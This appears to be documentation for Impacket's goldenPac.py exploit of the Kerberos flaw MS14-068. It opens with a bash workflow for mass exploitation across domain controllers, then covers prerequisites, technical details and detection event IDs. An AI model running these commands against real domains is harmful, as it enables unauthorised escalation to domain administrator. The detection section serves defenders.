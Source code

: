 ### Mass Exploitation Across Domain
```bash
# Step 1: Identify vulnerable domain controllers
nmap -p 88 -sV domain-range/24

# Step 2: Test MS14-068 on each DC
python3 goldenPac.py domain.net/user:pass@dc1.domain.net whoami
python3 goldenPac.py domain.net/user:pass@dc2.domain.net whoami

# Step 3: Extract secrets from all accessible DCs
python3 goldenPac.py -w dc1.ccache domain.net/user:pass@dc1.domain.net None
python3 goldenPac.py -w dc2.ccache domain.net/user:pass@dc2.domain.net None
```

## Prerequisites
- Python 3.x with Impacket installed
- Valid domain user credentials (any privilege level)
- Network access to domain controller
- Target domain controller vulnerable to MS14-068 (unpatched)
- FQDN resolution or explicit IP addresses for domain and target
- SMB access to target host (port 445)

## Vulnerability Details

### MS14-068 (CVE-2014-6324)
- **Affected Systems**: Windows Server 2003, 2008, 2008 R2, 2012, 2012 R2
- **Root Cause**: Improper validation of PAC signatures in Kerberos tickets
- **Impact**: Any domain user can escalate to domain administrator
- **CVSS Score**: 10.0 (Critical)
- **Patch Date**: November 2014

### Technical Exploitation Details:
- Forges a PAC claiming domain administrator privileges
- Bypasses signature validation through crafted checksum
- Creates TGS-REQ with malicious PAC structure
- Domain controller trusts forged PAC without proper validation

## Detection Considerations
- **Event IDs**:
  - 4624: Account logon with unusual privileges
  - 4672: Special privileges assigned to new logon
  - 4768: Kerberos TGT requested (with anomalous PAC)
  - 4769: Kerberos service ticket requested
- **Network Indicators**:
  - Unusual Kerberos ticket requests from low-privilege accounts
  - Immediate privilege escalation after ticket requests
  - Administrative actions from previously non-admin accounts
- **Behavioral Indicators**:
  - Low-privilege accounts performing admin tasks
  - Sudden access to high-value resources
  - PSExec or WMI execution from compromised accounts
